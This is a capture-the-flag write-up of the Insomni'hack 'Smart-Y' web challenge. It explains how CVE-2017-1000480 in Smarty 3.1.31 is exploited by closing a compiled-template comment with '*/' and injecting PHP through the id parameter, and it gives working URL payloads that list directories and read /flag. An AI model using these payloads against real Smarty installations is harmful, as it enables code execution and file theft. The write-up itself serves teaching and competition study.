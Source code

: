 # Smart-Y

This challenge was the second most flagged Web challenge of the CTF.

## Description

```
Last year, a nerd destroyed the system of Robot City by using some evident flaws. It seems that the system has changed and is not as evident to break now.
http://smart-y.teaser.insomnihack.ch
```

## Recon

The description evokes a previous challenge from Insomni'hack 2017. We
therefore started by looking for the
[writeup](https://terryvogelsang.tech/insomnihack-2017-nerdwar/) of this
challenge. At this point, it seems likely that the website uses the Smarty
framework - which is confirmed by the name of the challenge - and that the
SQLi as well as the template injection from the previous edition have been
patched.

The output of `dirb` indicates that the **smarty** directory exists and contains
the following **changelog.txt** file:

```
===== 3.1.31 ===== (14.12.2016)
  23.11.2016
   - move template object cache into static variables
```

The functionality that was vulnerable to SQL injection through the fetch
function before has been deactivated.
However, the display function is still available:

```php
<?php 

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 


$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

This version of Smarty is vulnerable to
[CVE-2017-1000480](https://www.cvedetails.com/cve/CVE-2017-1000480/).
Unfortunately, we couldn't find any public exploit for it. After digging through
the repository of Smarty, we identified the [commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61)
introducing a patch.


The patch is the following:
```php
-        $output .= "/* Smarty version " . Smarty::SMARTY_VERSION . ", created on " . strftime("%Y-%m-%d %H:%M:%S") .
-                   "\n  from \"" . $_template->source->filepath . "\" */\n\n";
+        $output .= "/* Smarty version {Smarty::SMARTY_VERSION}, created on " . strftime("%Y-%m-%d %H:%M:%S") .
+                   "\n  from \"" . str_replace('*/','* /',$_template->source->filepath) . "\" */\n\n";
```

The patch prevents the user from closing the comment with `*/`.
Since the website uses a version of Smarty that doesn't contain this patch,
we should be able to **close the comment and inject our own code**.

Let's try it.
 
## Exploit
 
1. We start by listing the root directory by visiting the following URL:
http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(scandir(%27/%27));/*

This outputs the following result:
```
 array(28) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(3) "bin"
  [3]=>
  string(4) "boot"
  [4]=>
  string(3) "dev"
  [5]=>
  string(3) "etc"
  [6]=>
  string(4) "flag"
  [7]=>
  string(4) "home"
  [8]=>
  string(10) "initrd.img"
  [9]=>
  string(14) "initrd.img.old"
  [10]=>
  string(3) "lib"
  [11]=>
  string(5) "lib64"
  [12]=>
  string(10) "lost+found"
  [13]=>
  string(5) "media"
  [14]=>
  string(3) "mnt"
  [15]=>
  string(3) "opt"
  [16]=>
  string(4) "proc"
  [17]=>
  string(4) "root"
  [18]=>
  string(3) "run"
  [19]=>
  string(4) "sbin"
  [20]=>
  string(4) "snap"
  [21]=>
  string(3) "srv"
  [22]=>
  string(3) "sys"
  [23]=>
  string(3) "tmp"
  [24]=>
  string(3) "usr"
  [25]=>
  string(3) "var"
  [26]=>
  string(7) "vmlinuz"
  [27]=>
  string(11) "vmlinuz.old"
}
```

2. It worked! Now that we got the path to the flag, all that's left is to
actually print it by visiting:
http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(file_get_contents(%22/flag%22));/*.

Aaaand, here's the flag:

**string(26) "INS{why_being_so_smart-y}"**

## Conclusion

Smart-Y was a really nice challenge, which mainly required to carefully read
a patch. Funnily enough, it seems that the patch is not yet available in a
stable Smarty release.
